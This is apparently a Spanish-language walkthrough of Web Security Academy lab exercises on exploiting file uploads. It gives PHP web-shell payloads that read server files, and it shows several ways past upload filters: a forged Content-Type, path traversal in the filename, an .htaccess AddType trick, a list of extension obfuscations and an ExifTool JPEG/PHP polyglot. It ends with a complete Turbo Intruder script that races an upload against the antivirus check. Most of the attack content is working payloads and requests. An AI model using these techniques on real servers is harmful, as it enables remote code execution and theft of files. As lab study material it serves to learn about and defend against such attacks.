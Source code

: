 
## Remote code execution via web shell upload

La plataforma permite subir cualquier tipo de archivo el cual se guarda de forma estática lo cual permite ejecutar código malicioso que  pueda mostrar información relevante del servidor.
> `<?php echo file_get_contents('/path/to/target/file'); ?>`

## Web shell upload via Content-Type restriction bypass

La plataforma no permitía subir ciertos tipos de datos tales como `application/octet-stream` dentro de un FormData, sin embargo se puede cambiar el tipo de dato aunque este no coincida con el del archivo para burlar el filtro. 
> `Content-Type: image/jpeg`

## Web shell upload via path traversal
La plataforma realizaba la subida de imágenes con un tipo de contenido de `Form Data`, el cual sin control permite escoger la dirección de donde se guardara el archivo, esto con el objetivo de burlar la seguridad que pueda tener el directorio por defecto.

> `Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"`

## Web shell upload via extension blacklist bypass
De primeras la plataforma no permite subir archivos que terminen con una extensión `.php`, por lo tanto se hará uso de un archivo perteneciente a Apache (`.htaccess`) que permite ejecutar archivos con extensiones diferentes como si de un archivo php se tratara.

Cambiar el contenido del `Form Data` de la petición
```
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain.

AddType application/x-httpd-php .l33t
```

Posteriormente sera necesario cambiar la extensión del archivo exploit a `.l33t`


## Web shell upload via obfuscated file extension
Es posible ocultar la extension del archivo de diferentes formas:
- En el caso de no ser *Case Sensitive* se puede usar `exploit.pHp`
- Agregar múltiples extensiones `exploit.php.jpg`
- Agregar caracteres finales `exploit.php.`
- usar URL encoding `exploit%2Ephp`
- URL Encoding NULL antes de la extensión `exploit.asp%00.jpg`
- Agregar Punto y coma antes de la extensión `exploit.asp;.jpg`
- Intente usar caracteres Unicode de varios bytes, que pueden convertirse en bytes nulos y puntos después de la conversión o normalización de Unicode. `xC0 x2E, xC4 xAE or xC0 xAE ` puede ser convertido a `x2E`.
- Ante remplazo de Extensión `exploit.p.phphp`, lo cual quitando `.php` queda `exploit.php`

## Remote code execution via polyglot web shell upload
Usando herramientas especiales, como ExifTool, puede ser trivial crear un archivo JPEG políglota que contenga código malicioso dentro de sus metadatos.

Cree un archivo PHP/JPG políglota que sea fundamentalmente una imagen normal, pero que contenga su carga útil de PHP en sus metadatos. Una forma sencilla de hacerlo es descargar y ejecutar ExifTool desde la línea de comandos de la siguiente manera
> `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`

## Web shell upload via race condition
El archivo subido se mueve a una carpeta accesible temporalmente, donde se comprueba si tiene virus. Los archivos maliciosos solo se eliminan una vez que se completa la verificación de virus. Esto significa que es posible ejecutar el archivo en la pequeña ventana de tiempo antes de que se elimine.

Para esto se hace uso del siguiente código en el `turbo intruder`

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''
POST /my-account/avatar HTTP/1.1
Host: 0a1c00210491d909c0136fea006c00d5.web-security-academy.net
Cookie: session=SUIPdTkzWvf5m3B8Tr7d194WLnUnZWws
Content-Length: 477
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="105", " Not;A Brand";v="99", "Chromium";v="105"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a1c00210491d909c0136fea006c00d5.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5CcG81EuLU4SMnDa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36 Edg/105.0.1343.33
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a1c00210491d909c0136fea006c00d5.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary5CcG81EuLU4SMnDa
Content-Disposition: form-data; name="avatar"; filename="exploit2.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundary5CcG81EuLU4SMnDa
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary5CcG81EuLU4SMnDa
Content-Disposition: form-data; name="csrf"

VXyCUqF2WxLDMkEnMF801NuISqVWAEkS
------WebKitFormBoundary5CcG81EuLU4SMnDa--
    '''

    request2 = '''
GET /files/avatars/exploit2.php HTTP/1.1
Host: 0a1c00210491d909c0136fea006c00d5.web-security-academy.net
Cookie: session=SUIPdTkzWvf5m3B8Tr7d194WLnUnZWws
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="105", " Not;A Brand";v="99", "Chromium";v="105"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36 Edg/105.0.1343.33
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a1c00210491d909c0136fea006c00d5.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

    '''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```